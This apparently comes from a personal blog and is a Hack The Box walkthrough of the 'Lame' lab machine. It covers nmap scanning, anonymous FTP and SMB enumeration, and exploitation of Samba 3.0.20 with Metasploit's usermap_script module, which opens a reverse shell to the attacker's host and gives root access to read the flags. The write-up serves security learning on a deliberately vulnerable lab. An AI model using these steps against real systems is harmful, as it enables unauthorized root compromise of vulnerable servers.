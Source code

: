 ```yaml
---
layout: post
title:  "HTB-Lame"
date:   2020-02-15 20:45:57 +0000
categories: HTB-Walkthrough
---
```


![lame](/assets/img/lame.png)

Lets kick this off by using nmap to scan the target
`nmap -A 10.10.10.3 |tee -a lame.txt`
The `-A` flag sets the scan to agressive...not always the best choice, but im in a bit of a mood!


```

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


1st try anonymous ftp login and enum.

```plaintext

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> cd ..

```

2nd try smbclient and port 445 enum.

```

root@kali:~/HTB/prep/lame# smbclient -L 10.10.10.3
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

We can see that the target is running Samba 3.0.20-Debian, maybe it has some known 
vulnerability we can find, but first lets take the hint and explore `tmp` 

```

root@kali:~/HTB/prep/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov  6 11:38:07 2019
  ..                                 DR        0  Sun May 20 20:36:12 2012
  orbit-makis                        DR        0  Wed Nov  6 11:25:31 2019
  .ICE-unix                          DH        0  Wed Nov  6 10:47:27 2019
  .X11-unix                          DH        0  Wed Nov  6 10:47:51 2019
  gconfd-makis                       DR        0  Wed Nov  6 11:25:31 2019
  5141.jsvc_up                        R        0  Wed Nov  6 10:48:34 2019
  .X0-lock                           HR       11  Wed Nov  6 10:47:51 2019

		7282168 blocks of size 1024. 5678328 blocks available
smb: \> 

```
Nothing immediately helpful here...so lets check Searchsploit for possible known exploits.

Searchsploit reveals a metasploit exploit for Samba 3.x
Ok lets see how effective it is...

Start up msfconsole, then:

`use exploit/multi/samba/usermap_script`
use the command `show options` to see what info is required to make this work...
`set rhosts 10.10.10.3`
pull the trigger with `exploit` command...


```

msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.31:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo gcMvWCjjW9n0VrCc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "gcMvWCjjW9n0VrCc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.31:4444 -> 10.10.10.3:54951) at 2020-01-21 11:42:12 -0500

id
uid=0(root) gid=0(root)
cd /home
ls
ftp
makis
service
user
cd makis
ls
user.txt
cat user.txt
69xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxc5
cat /root/root.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxdf

```

Oh, right....that was quick. I can see why the box gets its name from now;
Nobody in their right mind should still be running this Samba version!

A good easy box for beginners to get to have a go at the basic tools, and methodology.
Lets quickly move on to another box...



#######################


